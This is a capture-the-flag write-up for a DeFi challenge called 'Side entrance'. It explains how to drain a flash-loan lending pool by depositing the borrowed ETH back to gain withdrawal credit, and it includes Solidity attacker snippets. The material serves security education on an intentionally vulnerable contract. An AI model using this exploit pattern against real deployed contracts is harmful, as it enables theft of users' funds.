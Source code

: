 ## Side entrance

### Challenge description

> A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.
>
> This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
>
> You must take all ETH from the lending pool.

### Solution

SideEntranceLenderPool's `flashLoan()` function expects to interact with a contract and call its `execute` function forwarding the value that the borrower requests (`amount`). This contract is open to reentrancy vulnerabilities and it can be exploited to drain its funds.

Then, the `flashLoan()` function checks the following:

```cs
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back"); 
```

Meaning the funds can be returned to the contract through `deposit()`:

```cs
function execute() external payable {
    pool.deposit{value: msg.value}();
}
```

Given the reentrancy vulnerability, we can call `deposit()` in `execute()` with the funds obtained from the flash loan, which credits them to the attacker contract address in the `balances` mapping.

This entitles the attacker contract to withdrawing the full pool contract balance, which can be then forwarded to the attacker address:

```cs
function withdrawFromPool() external payable {
    pool.withdraw();
}

receive() external payable {
    payable(owner).sendValue(msg.value);
}
```
